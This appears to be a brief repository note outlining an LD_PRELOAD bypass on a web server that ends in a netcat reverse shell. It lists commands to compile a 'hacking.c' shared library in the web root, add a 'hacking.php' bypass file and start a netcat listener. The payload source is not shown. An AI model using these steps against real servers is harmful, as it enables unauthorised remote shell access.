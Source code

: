 # Testing By Pass LD_PRELOAD

NetCat Reverse Shell
--------
```
#Build Config
nano /var/www/html/hacking.c
gcc -c -fPIC hacking.c -o hacking
gcc -shared hacking -o hacking.so

#ByPass via BadConnect
nano /var/www/html/hacking.php

#NetCat
nc -v -l -p [PORT]
```

